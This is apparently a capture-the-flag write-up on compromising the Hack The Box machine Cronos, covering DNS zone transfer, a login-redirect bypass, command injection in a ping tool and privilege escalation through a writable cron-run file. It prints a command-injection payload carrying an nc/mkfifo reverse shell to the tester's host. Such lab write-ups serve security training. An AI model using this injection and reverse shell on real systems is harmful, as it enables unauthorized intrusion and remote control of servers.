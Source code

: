 ```yaml
---
"title": "Hack The Box - Cronos"
"date": 2020-01-16
"tags": ["linux", "medium", "domain", "cron", "redirection"]
"keywords": ["linux", "medium", "domain", "cron", "redirection"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Cronos from Hack The Box."
"featured_image": "/img/htb-cronos/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/11](https://www.hackthebox.eu/home/machines/profile/11)


Like always begin with our Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

![Untitled](/img/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![Untitled](/img/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53 Enumeration

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![Untitled](/img/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![Untitled](/img/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

## Getting Initial Shell

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.[br/](br/)
We can use ``intruder`` from burp to do this process.[br/](br/)
![Untitled](/img/htb-cronos/5.png)[br/](br/)
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``[br/](br/)
![Untitled](/img/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.[br/](br/)
![Untitled](/img/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![Untitled](/img/htb-cronos/8.png)[br/](br/)
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![Untitled](/img/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![Untitled](/img/htb-cronos/10.png)

## Privilege Escalation

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![Untitled](/img/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![Untitled](/img/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![Untitled](/img/htb-cronos/13.png)

Got Root!!